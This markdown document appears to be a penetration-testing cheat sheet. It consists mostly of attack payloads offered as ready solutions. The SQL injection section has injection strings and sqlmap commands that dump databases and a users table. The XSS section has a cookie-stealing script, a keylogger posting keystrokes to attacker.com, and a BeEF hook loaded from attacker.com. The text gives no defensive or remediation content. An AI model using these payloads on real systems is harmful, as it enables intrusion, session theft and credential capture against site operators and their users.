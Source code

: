 # Penetration Testing Solutions and Techniques

## Overview
This document contains proven solutions, techniques, and methodologies for common penetration testing scenarios encountered during security assessments.

## Web Application Penetration Testing Solutions

### SQL Injection Exploitation
**Problem**: Identifying and exploiting SQL injection vulnerabilities

**Solution**:
```bash
# 1. Manual testing for SQL injection
# Test with single quote
http://target.com/page.php?id=1'

# Test with boolean-based blind SQL injection
http://target.com/page.php?id=1' AND 1=1--
http://target.com/page.php?id=1' AND 1=2--

# 2. Automated testing with sqlmap
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump

# 3. POST parameter testing
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin" --dbs
```

**Advanced Techniques**:
- WAF bypass techniques
- Time-based blind SQL injection
- Second-order SQL injection
- NoSQL injection

### Cross-Site Scripting (XSS) Exploitation
**Problem**: Finding and exploiting XSS vulnerabilities

**Solution**:
```javascript
// 1. Basic XSS payloads
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// 2. Cookie stealing payload
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// 3. Keylogger payload
<script>
document.onkeypress = function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/keylog.php', true);
    xhr.send('key=' + String.fromCharCode(e.which));
}
</script>

// 4. BeEF hook payload
<script src="http://attacker.com:3000/hook.js"></script>
```

